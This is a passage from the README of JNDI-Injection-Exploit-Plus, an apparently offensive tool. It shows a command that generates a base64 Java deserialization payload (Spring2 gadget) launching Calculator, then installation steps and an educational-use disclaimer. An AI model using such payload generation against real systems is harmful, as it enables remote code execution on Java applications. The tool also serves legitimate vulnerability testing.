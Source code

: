    then when we run this code, the command will be executed ,

   and the log will be printed in shell:

   ![](./img/2.png)

For More Examples: [Test-JNDI-Injection-Exploit-Plus](https://github.com/cckuailong/Test-JNDI-Injection-Exploit-Plus)

### Deserialization Payloads

```shell
$ java -jar JNDI-Injection-Exploit-Plus-2.3-SNAPSHOT-all.jar -C "/System/Applications/Calculator.app/Contents/MacOS/Calculator" -D "Spring2" -O base64
```

Base64 Output Result:

![](./img/3.png)

## Installation

We can select one of the two methods to get the jar.

1. Download the latest jar from [Realease](https://github.com/cckuailong/JNDI-Injection-Exploit-Plus/releases).

2. Clone the source code to local and build (Requires Java 1.8+ and Maven 3.x+).

   ```shell
   $ git clone https://github.com/cckuailong/JNDI-Injection-Exploit-Plus.git
   ```

   ```shell
   $ cd JNDI-Injection-Exploit-Plus
   ```

   ```shell
   $ mvn clean package -DskipTests
   ```

**P.S**. :bangbang: If you get the error like "java.rmi.xxx does not exists", you should set the JAVA_HOME env.

## Disclaimer

All information and code is provided solely for educational purposes and/or testing your own systems for these vulnerabilities.

